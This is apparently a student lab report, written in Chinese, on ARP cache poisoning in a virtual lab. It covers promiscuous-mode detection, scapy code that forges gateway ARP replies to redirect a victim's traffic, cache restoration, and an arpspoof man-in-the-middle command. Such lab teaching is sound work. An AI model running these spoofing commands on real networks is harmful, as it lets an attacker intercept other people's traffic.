

# 第四章实验 - 网络监听

## 实验目的

- 熟悉 scapy 的使用
- 了解 ARP 投毒过程
- 了解一些常用的 ARP 投毒工具

## 实验环境

网络拓扑：


如图所示网络中的节点基本信息如下：

- 攻击者主机
  - 08:00:27:17:f4:08/eth2
  - 172.16.111.110/24
- 受害者主机
  - 08:00:27:12:c3:08/eth0
  - 172.16.111.112/24
- 网关
  - 08:00:27:3d:5c:d1/enp0s9
  - 172.16.111.1/24

## 实验准备

在攻击者主机上安装 `scapy`：

```shell
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```


## 实验一：检测局域网中的异常终端

在**受害者主机**上检查网卡的`「混杂模式」`是否启用：

- 输出结果里没有出现 `PROMISC` 字符串

```shell
ip link show eth0
```


在**攻击者主机**上开启 `scapy`：

```shell
sudo scapy
```


在 `scapy` 的交互式终端输入以下代码回车执行：

```shell
#promiscping：发送 ARP who-has 请求以确定哪些主机处于混杂模式
pkt = promiscping("172.16.111.112")
```


回到**受害者主机**上开启网卡的`「混杂模式」`:

- 此时会发现输出结果里多出来了 `PROMISC`

```shell
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on

#检查网卡的「混杂模式」
ip link show eth0
```


回到**攻击者主机**上的 `scapy` 交互式终端继续执行 `pkt = promiscping("172.16.111.112")` 命令，观察两次命令的输出结果差异：


在**受害者主机**上手动关闭该网卡的`「混杂模式」`：

```shell
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```


## 实验二：手工单步“毒化”目标主机的 ARP 缓存

在**攻击者主机**上的 `scapy` 交互式终端构造一个 ARP 广播请求：

```shell
# 获取当前局域网的网关 MAC 地址
# 网关的MAC地址为：08:00:27:3d:5c:d1

# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```


将这个 ARP 广播请求发送至网关：

```shell
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```

伪造网关的 ARP 响应包，发送给受害者主机，ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址：

- `psrc`是我们要欺骗的地址，`pdst`是 ARP 数据包的目的地址

```shell
# 伪造网关的 ARP 响应包
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.112", hwdst="08:00:27:17:f4:08")

# 发送上述伪造的 ARP 响应数据包到受害者主机
# 将课件上的 sendp 修改为 send
send(arpspoofed)
```

此时在**受害者主机**上查看 ARP 缓存，会发现网关的 MAC 地址已被`「替换」`为攻击者主机的 MAC 地址：

- 各个状态的意义如下：
  
  - `REACHABLE` ：链路地址可达
  
  - `STALE` ：链路地址缓存失效，但并不意味不可达
  
  - `DELAY` ：探测开始之间的延迟

```shell
# 查看 ARP 缓存
ip neigh
```


在**攻击者主机**上执行如下指令，恢复受害者主机的 ARP 缓存记录

- **伪装网关**给受害者发送 ARP 响应：
  
  ```shell
  #网关作为要欺骗的地址，受害者主机作为ARP数据包的目的地址
  restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:3d:5c:d1", pdst="172.16.111.112", hwdst="08:00:27:12:c3:08")
  sendp(restorepkt1, count=10, inter=0.2)
  ```
  
  

- `「伪装网关」`刷新网关 ARP 记录后查看 ARP，发现受害者主机上的 ARP 缓存已恢复正常的网关 ARP 记录
  
  ```shell
  ## 在受害者主机上尝试 ping 网关
  ping 172.16.111.1
  ## 静候几秒 ARP 缓存刷新成功，退出 ping
  
  ## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  ip neigh
  ```
  
  

- **伪装受害者**给网关发送 ARP 响应：
  
  ```shell
  #网关作为 ARP 数据包发送的目的地址，受害者作为要欺骗的地址
  restorepkt2 = Ether()/ARP(op=2, pdst="172.16.111.1", hwdst="08:00:27:3d:5c:d1", psrc="172.16.111.112", hwsrc="08:00:27:12:c3:08")
  sendp(restorepkt2, count=10, inter=0.2)
  ```
  
  

- `「伪装受害者」`刷新网关 ARP 记录后查看 ARP：
  
  

## 实验三（可选）使用自动化工具完成 ARP 投毒劫持实验

**`kali-arpspoof` 工具**：通过伪造 ARP 将来自 LAN 上的目标主机（或所有主机）的数据包重定向到 LAN 上的另一台主机回复。 这是在交换机上嗅探流量的一种非常有效的方法。

在**攻击者主机**上使用 `kali-arpspoof` 工具进行中间人 `arp 投毒`：

```shell
# 下载并安装arpspoof
sudo apt update && apt install -y dsniff ssldump
# 查看arpspoof使用手册
man arpspoof
# 劫持
# sudo arpspoof -i eth0 -t <想要劫持的目标主机>  <想要伪装成的主机ip>
sudo arpspoof -i eth0 -t 172.16.111.112 172.16.111.1
```


## 实验中遇到的困难及解决方法

### 问题1： `scapy` 的交互式终端使用异常

**问题描述**：在 `scapy` 的交互式终端输入代码 `pkt = promiscping("172.16.111.112")` 执行后出现 `PermissionError: [Errno 1] Operation not permitted` 的报错。


**解决办法**：出现权限问题，第一反应是 `sudo` ，查阅资料发现在启动 `scapy` 时加上 `sudo` 即可。

### 问题2：在伪造网关的 ARP 响应包时没有成功替换受害者主机上的MAC地址


**解决方法一**：将 `sendp(arpspoofed) `改为 `send(arpspoofed)` ：

```shell
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.112", hwdst="08:00:27:17:f4:08")
send(arpspoofed)
```

**解决方法二**：在 `ARP` 前加上 `Ether()`

```shell
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.112", hwdst="08:00:27:17:f4:08")
sendp(arpspoofed)
```

**原因**：

> The `/` operator has been used as a composition operator between two layers.

> The send() function will send packets at layer 3. That is to say, it will handle routing and layer 2 for you. The sendp() function will work at layer 2. It’s up to you to choose the right interface and the right link layer protocol. send() and sendp() will also return sent packet list if return_packets=True is passed as parameter.

## 参考文献

- [Scapy p.03 - thePacketGeek](https://thepacketgeek.com/scapy/building-network-tools/part-03/)

- [Usage — Scapy 2.5.0 documentation](https://scapy.readthedocs.io/en/latest/usage.html)

- [链路层地址（ARP/Neighbor）相关信息 - clanzx](https://blog.clanzx.net/network/ip-neigh.html)

- [参考的实验报告1](https://github.com/CUCCS/2021-ns-public-EddieXu1125/blob/23b42fc9a5cf0dcd8a872189afae701311023a99/chap0x04/README.md)

- [参考的实验报告2](https://github.com/CUCCS/2022-ns-public-zhouyuting-mafumafu/blob/45b5a85b02287f890944cff5b9618cf5bba82513/chap0x04/%E7%AC%AC%E5%9B%9B%E7%AB%A0%E5%AE%9E%E9%AA%8C.md)


